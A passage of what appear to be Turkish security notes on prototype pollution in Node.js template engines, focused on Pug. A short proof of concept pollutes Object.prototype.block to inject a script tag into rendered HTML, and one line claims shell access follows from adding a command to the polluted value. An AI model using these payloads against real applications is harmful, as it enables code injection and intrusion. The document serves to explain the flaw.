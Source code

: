 ```
# execute
requests.get(TARGET_URL)


```


![Pasted image 20250129201704.png](/img/user/Pasted%20image%2020250129201704.png)

Değeri içine herhangi bir komut ekleyerek shell elde edebiliriz.


## Pug

![Pasted image 20250129201745.png](/img/user/Pasted%20image%2020250129201745.png)

Bugüne kadar bu pug toplam 65,827,719 kez indirilmiştir. pug daha önce jade adı altında geliştirilmiş ve ismi değiştirilmiş bir modüldür. İstatistiklere göre nodejs'deki en popüler 4. template motorudur.


### How to Detect

```
const pug = require('pug');

const source = `h1= msg`;

var fn = pug.compile(source);
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works</h1>


```

Bir pug'da template kullanmanın yaygın bir yolu yukarıdaki gibidir. pug.compile fonksiyonu bir stringi bir template fonksiyonuna dönüştürür ve referans için objeyi geçirir.

```
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>


```
